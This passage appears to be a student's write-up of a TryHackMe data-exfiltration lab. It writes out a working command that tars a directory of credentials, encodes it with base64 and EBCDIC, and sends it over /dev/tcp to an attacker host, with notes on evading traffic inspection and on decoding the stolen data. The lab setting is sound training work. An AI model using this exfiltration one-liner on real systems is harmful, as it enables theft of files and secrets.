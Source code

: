 <u>Once connected</u>:
![](/assets/img/Pasted image 20230108203835.png)

**Diagram if connecting from the `JumpBox` to `victim1.thm.com`**:
![](/assets/img/Pasted image 20230108204143.png)


- **OR** you can connect through the AttackBox as well:
`$ ssh thm@10.10.167.168 -p 2022`

![](/assets/img/Pasted image 20230108203653.png)

**Diagram if connecting from the `AttackBox`**:
![](/assets/img/Pasted image 20230108204033.png)


##### 3. Checking the sample file with credentials in it:
![](/assets/img/Pasted image 20230108204330.png)


##### 4. Exfiltrating this data through TCP:
<u>Format</u>:
`thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<Attacker-IP>/<Attacker-Listening-Port>`

<u>Actual Command</u>:
`thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/10.10.242.193/8080`

	Breakdown:
	1. `tar` : creates an archive file with the 'zcf' arguments of the content of the secret directory.
	2. 'zcf' : 'z' is for using gzip to compress the selected folder, 'c' for creating a new archive, and 'f' for using an archive file.
	3. "... | base 64 " : pass the created tar file to the base64 command for converting it to base64 representation.
	4. " base64 | dd conv=ebcdic > ..." : we passed the result of the base64 command to create and copy a backup file with the 'dd' command using 'EBCDIC' encoding data. Note that 'dd' command allows us to copy RAW DATA from one source to another.
	5. Finally, we redirect the 'dd' command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

- Note that we used the Base64 and `EBCDIC` encoding to protect the data during the exfiltration.
- If someone inspects the traffic, it would be in a ***non-human readable format*** and wouldn't reveal the transmitted file type.

- Once we hit enter, we should receive the encoded data in the `/tmp` directory:
<u>From the JumpBox</u>:
![](/assets/img/Pasted image 20230108232229.png)

<u>In the Attacker's machine receiving the data</u>:
![](/assets/img/Pasted image 20230108232306.png)


##### 5. Note that I sent it to the AttackBox instead of the `JumpBox` vm:
- On the `JumpBox` we need to convert the received data back to its original status.
- We will be using `dd` tool to convert it back:
`$ cd /tmp/`
`$ dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar`
